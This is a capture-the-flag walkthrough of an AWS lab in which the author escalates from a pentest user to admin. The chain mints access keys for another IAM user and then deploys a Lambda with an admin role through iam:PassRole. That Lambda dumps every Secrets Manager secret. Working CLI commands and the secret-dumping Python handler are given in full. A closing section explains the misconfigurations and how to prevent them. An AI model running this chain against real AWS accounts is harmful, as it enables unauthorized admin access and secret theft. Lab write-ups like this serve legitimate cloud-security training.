









# HackSmarter: "Mapper" (Medium) Walkthrough

Another AWS lab from Tyler Ramsbey. The name is a pretty big hint: this one is about mapping out IAM. You get one set of "developer" keys, there are a hundred-ish IAM users in the account, and a flag sits in Secrets Manager that only an Administrator can read. The job is to audit everyone, find the one privilege-escalation path hiding in the pile, walk it to admin, and read the secret.

Everything below is from my Kali box (WSL) with just the AWS CLI. Access keys and secrets are redacted in the screenshots because the lab asks you to, and because leaking them is a good way to have a bad day.



---

## Who am I, and what can I do?

First move with any set of AWS keys: find out who you are. I dropped the starting key/secret into a named `mapper` profile so I wasn't pasting creds everywhere, then:

```bash
aws sts get-caller-identity --profile mapper
```



So I'm `cg-pentest-lab` in account `258174386586`. Next question, the important one: what can this user actually do? Don't guess, read the policies.

```bash
aws iam list-attached-user-policies --user-name cg-pentest-lab --profile mapper
aws iam get-user-policy --user-name cg-pentest-lab --policy-name cg-pentest-create-access-key-lab --profile mapper
```



Two things, and they pair up beautifully:

* **IAMReadOnlyAccess** - I can read every IAM object in the account. Perfect for mapping.
* an inline policy granting **`iam:CreateAccessKey` on `arn:aws:iam::*:user/*`** - I can mint a fresh access key for *any* user in the account.

That second one is the whole game. I don't need to escalate my own user at all. If I can find a user somewhere in this account that has a path to admin, I just create an access key for them and walk in wearing their shoes. So the task reduces to: find the useful user.

## Mapping 100+ users without losing my mind

```bash
aws iam list-users --profile mapper --query 'Users[].UserName' --output text | tr '\t' '\n' | wc -l
```



102 users. I'm not reading those individually. The move here is `get-account-authorization-details`, which dumps every user, role, group, and their attached + inline policies in one giant JSON blob:

```bash
aws iam get-account-authorization-details --profile mapper > aad.json
```

That gave me 102 users, 11 roles, 0 groups, 12 managed policies. Now I can just query the blob offline instead of hammering the API.

First thing I checked: does anyone have a canned admin policy attached (AdministratorAccess, PowerUser, something `*FullAccess`)? Nope, zero hits. So whatever the path is, it lives in the **inline** policies. I flattened every user's inline policy down to `username -> action` lines and sorted them:

```bash
jq -r '.UserDetailList[] | .UserName as $u | (.UserPolicyList//[])[]
       | (.PolicyDocument.Statement[]) | (.Action[]?) | "\($u)\t\(.)"' aad.json | sort -u
```



And out of a hundred-plus users, basically nothing has any interesting inline permissions except one account:

```
cg-arlogfwl-lab    lambda:CreateFunction
cg-arlogfwl-lab    lambda:InvokeFunction
cg-arlogfwl-lab    iam:PassRole
```

`lambda:CreateFunction` + `lambda:InvokeFunction` + `iam:PassRole` is a textbook Lambda privilege-escalation combo. If that PassRole is allowed to hand a powerful role to a Lambda function, I can run arbitrary code as that role. So now I need to know which role it's allowed to pass.

## The role it's allowed to pass

```bash
jq '.UserDetailList[]|select(.UserName=="cg-arlogfwl-lab")|.UserPolicyList[].PolicyDocument' aad.json
jq '.RoleDetailList[]|select(.RoleName=="cg-LambdaAdminExecutionRole-lab")' aad.json
```



The PassRole is scoped to exactly one ARN: `cg-LambdaAdminExecutionRole-lab`. And that role:

* **trusts `lambda.amazonaws.com`** (so a Lambda function is allowed to assume it), and
* has **AdministratorAccess** attached.

That is the entire chain, start to finish:

> **me (`cg-pentest-lab`, can create keys for anyone) -> `cg-arlogfwl-lab` (can pass an admin role to a Lambda) -> `cg-LambdaAdminExecutionRole-lab` (AdministratorAccess) -> read the secret.**

## Walking the path

Step one, become `cg-arlogfwl-lab` by minting it an access key (something my starting user is explicitly allowed to do):

```bash
aws iam create-access-key --user-name cg-arlogfwl-lab --profile mapper
```



I dropped those into a second profile (`dev`), gave IAM a few seconds to propagate, and confirmed I was now `cg-arlogfwl-lab`. This user has no Secrets Manager access of its own, so it can't read the flag directly. That's fine, the Lambda is going to do the reading for me.

Step two, write a tiny handler that walks Secrets Manager and returns every secret value:

```python
import boto3
def handler(event, context):
    out = {}
    for r in ['us-east-1','us-west-2','us-east-2','eu-west-1','eu-central-1']:
        try:
            sm = boto3.client('secretsmanager', region_name=r)
            for s in sm.list_secrets().get('SecretList', []):
                out[r + ':' + s['Name']] = sm.get_secret_value(SecretId=s['ARN']).get('SecretString')
        except Exception:
            pass
    return out
```

Step three, zip it and create the function **with the admin role attached**, then invoke it:

```bash
zip -q function.zip handler.py
aws lambda create-function --function-name redteam-reader --runtime python3.12 \
  --role arn:aws:iam::258174386586:role/cg-LambdaAdminExecutionRole-lab \
  --handler handler.handler --zip-file fileb://function.zip --profile dev
aws lambda invoke --function-name redteam-reader --payload '{}' out.json --profile dev
cat out.json
```



```
{"us-east-1:cg-admin-flag-lab": "HSM{44c9f2969e2b49e19c9575ec081608a9}"}
```

CloudFormation wasn't needed here, the Lambda itself ran as admin and read the Admin-only secret. A user with zero Secrets Manager permissions just pulled an admin secret out of the account.

## Flag

```
HSM{44c9f2969e2b49e19c9575ec081608a9}
```



---

## Why this worked, and how you'd stop it

The individual permissions here all look reasonable in isolation. A "developer" user that can create and invoke Lambda functions? Sure. A Lambda execution role? Normal. An audit user with read-only IAM and the ability to issue keys for break-glass? Defensible. The problem is the combination:

- **`iam:PassRole` scoped to an admin role** is the real bug. `cg-arlogfwl-lab` should only ever be allowed to pass a least-privilege execution role that can do the specific thing its functions need, never one carrying `AdministratorAccess`.
- The **`cg-LambdaAdminExecutionRole-lab`** role having `AdministratorAccess` at all is the landmine. Lambda execution roles should be scoped to exactly the APIs the function calls.
- The starting user's **`iam:CreateAccessKey` on `*`** turns "find any weak user" into "become any weak user" for free. If you really need a key-issuing audit user, scope the resource and alarm on it loudly.

The lesson of this box is the same one that bites real AWS accounts constantly: nobody audits the graph. Each policy passes review on its own, but `PassRole -> admin role -> Lambda` is a straight line to game over, and it only shows up if you actually map the relationships instead of reading permissions user by user. Map the paths, not just the permissions.
